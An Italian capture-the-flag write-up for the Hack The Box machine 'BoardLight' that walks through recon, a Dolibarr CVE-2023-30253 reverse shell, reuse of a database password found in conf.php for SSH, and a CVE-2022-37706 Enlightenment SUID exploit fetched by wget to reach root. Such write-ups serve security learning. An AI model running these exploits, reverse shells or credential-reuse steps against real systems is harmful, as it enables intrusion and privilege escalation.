




**TARGET: 10.10.11.11**

# INFORMATION GHATERING

Partiamo con un scan [Nmap](Note/Tool/Nmap.md)
```bash
┌──(kali㉿kali)-[~/htb/boardlight]
└─$ sudo nmap -sSVC 10.10.11.11
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-03 15:16 CEST
Nmap scan report for 10.10.11.11
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.55 seconds
```

abbiamo solo due porte aprte

- 22 ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
- 80 http Apache httpd 2.4.41

un ulteriore scan su tutte le porte non ci da nessuna nuova informazione.

# ENUMERATION
 
Visitiamo la porta 80 
Sembra un sito di un azienda di cybersecurity. 
Abbiamo diverse pagine

- `/index.php`
- `/about.php`
- `/do.php`
- `/contact.php`

in `/about.php` abbiamo riferimento ad un dominio `board.htb` che andiamo ad aggiungere al nostro `/etc/hosts`

```bash
sudo echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
```

ricerca per ulteriori directory con diresarch e [Gobuster](Note/Tool/Gobuster.md) non ci da nessuna nuova informazione proviamo a cercare dei sottodomini e virtual host con [Ffuz](Note/Tool/Ffuz.md) 

```bash
┌──(kali㉿kali)-[~/htb/boardlight]
└─$ ffuf -u http://board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.board.htb" -fs 15949

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 73ms]
:: Progress: [4989/4989] :: Job [1/1] :: 531 req/sec :: Duration: [0:00:10] :: Errors: 0 ::

```

troviamo un `crm` che andremo ad aggiungere sempre al nostro `etc/hosts`.

Visitando il nuovo indirizzo ci troviamo davanti ad un form di login 


provando delle credenziali standard come `admin/admin` riusciamo ad effettuare il login anche se riceviamo questo errore

Ora cerando in rete troviamo [questo exploit](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253.git) dove nella sezione manuale riusciamo ad eseguire codice php.E' interessante notare come in prima battuta sembrerebbe che non siamo in grado di aggiungere tale codice ma cambiamo semplicemente il formato con cui viene scritta la parola php (php -> pHp) riusciamo ad evadere i filtri ed ad ottenere l'esecuzione del codice.
Viene anche fornito un exploit automatizzato per semplificare il tutto.

# GAINING AN INITIAL FOOTHOLD 

Possiamo ottenere l'accesso sia manualmente come mostrato nel PoC sia attraverso lo script.py fornito nella repo.

ovviamente ci mettiamo in ascolto con nc 

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1010
listening on [any] 1010 ...
```

ed eseguiamo l'exploit

```bash
┌──(kali㉿kali)-[~/htb/boardlight/Dolibarr-17.0.0-Exploit-CVE-2023-30253]
└─$ ./exploit.py http://crm.board.htb admin admin 10.10.14.49 1010
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password
```

e abbiamo la nostra shell.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1010
listening on [any] 1010 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.11] 39260
bash: cannot set terminal process group (889): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```

# PRIVESC

## www-data ---> larissa

il file `etc/passwd` ci mostre che abbiamo utente di nome `larissa` che ha accesso ad un shell bash proviamo a vedere se troviamo in giro le sue credenziali, nella speranza che abbia privilegi piu alti dei nostri 
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat /etc/passwd | grep bash
hat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```


Dopo un po di enumerazione in giro ci imbattiamo in questo file `conf.php` al seguente percorso `www-data@boardlight:~/html/crm.board.htb/htdocs/conf$`

```bash
..<snip>..
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
..<snip>..
```

sembra essere un password, proviamo ad utilizzarla per avere accesso tramite ssh al l'utente `larissa`

```bash
┌──(kali㉿kali)-[~]
└─$ ssh larissa@10.10.11.11
The authenticity of host '10.10.11.11 (10.10.11.11)' can't be established.
ED25519 key fingerprint is SHA256:xngtcDPqg6MrK72I6lSp/cKgP2kwzG6rx2rlahvu/v0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.11' (ED25519) to the list of known hosts.
larissa@10.10.11.11's password:
Last login: Sat Aug  3 13:49:32 2024 from 10.10.14.21
larissa@boardlight:~$
```

## larissa --> root

Ci carichiamo [LinEPAS.sh](LinEPAS.sh) per darci una mano nella ricerca di una via per aumentare ancora i nostri privilegi e diventare root



possiamo trovare qui binari non standard anche con il comando `find`

```bash
larissa@boardlight:/$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
```

Cercando su google per [enlightenment suid exploit ](https://www.google.it/search?q=enlightenment+suid+exploit&sca_esv=e9f3e6ede1937afe&sxsrf=ADLYWIJIei7RIlFIWJ78VBhqSnwvYyv1hQ%3A1722856547238&ei=Y7SwZuSfDo-oi-gP_pyS0AY&oq=enlightenment%C2%A0&gs_lp=Egxnd3Mtd2l6LXNlcnAiD2VubGlnaHRlbm1lbnTCoCoCCAEyBBAjGCcyDBAjGIAEGBMYJxiKBTIKEAAYgAQYQxiKBTIEEAAYAzIKEAAYgAQYFBiHAjIQEC4YgAQYFBiHAhjHARivATIKEAAYgAQYQxiKBTIKEAAYgAQYQxiKBTIFEAAYgAQyBRAAGIAESIomUOQHWOQHcAF4AJABAJgBYaABsgGqAQEyuAEDyAEA-AEBmAICoAJ5wgIKEAAYsAMY1gQYR5gDAIgGAZAGCJIHAzEuMaAH6g8&sclient=gws-wiz-serp) troviamo [questo exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) relativo alla **CVE-2022-37706** che sembra fare al caso nostro. 
La scarichiamo e vediamo come procedere

Stando a quanto riportato, la vulnerabilità deriva da un'errata gestione dei permessi utente nei file in Enlightenment.
Il software Enlightenment contiene codice che manipola file di configurazione o temporanei senza verificare adeguatamente i permessi di accesso. Alcune delle operazioni che Enlightenment esegue sui file vengono fatte con privilegi elevati, ma senza le necessarie verifiche di sicurezza. Di conseguenza, un utente può sfruttare questa lacuna per eseguire comandi o script con privilegi più alti di quelli concessi normalmente.

non ci resta che scaricare l'exploit sul target ed eseguire 

```bash
larissa@boardlight:/tmp$ wget http://10.10.14.49:80/exploit.sh
--2024-08-05 14:19:19--  http://10.10.14.49/exploit.sh
Connecting to 10.10.14.49:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 709 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh                                                 100%[========================================================================================================================================>]     709  --.-KB/s    in 0.001s

2024-08-05 14:19:19 (680 KB/s) - ‘exploit.sh’ saved [709/709]

larissa@boardlight:/tmp$ chmod +x exploit.sh
larissa@boardlight:/tmp$ ./exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

facciamo upgrade della shell per avere un full tty e ci prendiamo la nostra root flag

```bash
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@boardlight:/tmp# cat /root/root.txt
f444f296785decdafe0476be45e1f5a6
root@boardlight:/tmp#
```

